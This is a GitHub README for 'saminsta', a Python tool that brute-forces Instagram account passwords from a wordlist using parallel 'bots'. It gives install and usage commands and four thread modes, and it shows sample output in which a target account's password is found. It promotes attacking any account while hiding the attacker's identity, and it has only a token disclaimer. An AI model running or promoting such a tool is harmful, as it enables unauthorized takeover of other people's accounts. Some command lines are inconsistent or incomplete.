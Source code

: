 # saminsta
we are not responsible for any misuse of this tool 
# Instagram Bruteforce

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.
# Requirements

-   Python v3
-   ~~Linux~~
-   ~~TOR~~
-   ~~   ~~

# Install Dependencies

```
pip3 install -r requirements.txt
```

# Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

# Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

# Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

# Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
python3 instgram.py username  pass.txt -m 3
```

# Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
python3 instgram.py username  pass.txt -m mode no 2

```

# Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
python3 instgram.py username  pass.txt -m 1

```

# Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```

```

# If you don't specify a mode, then mode is set to 2

# Run

```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
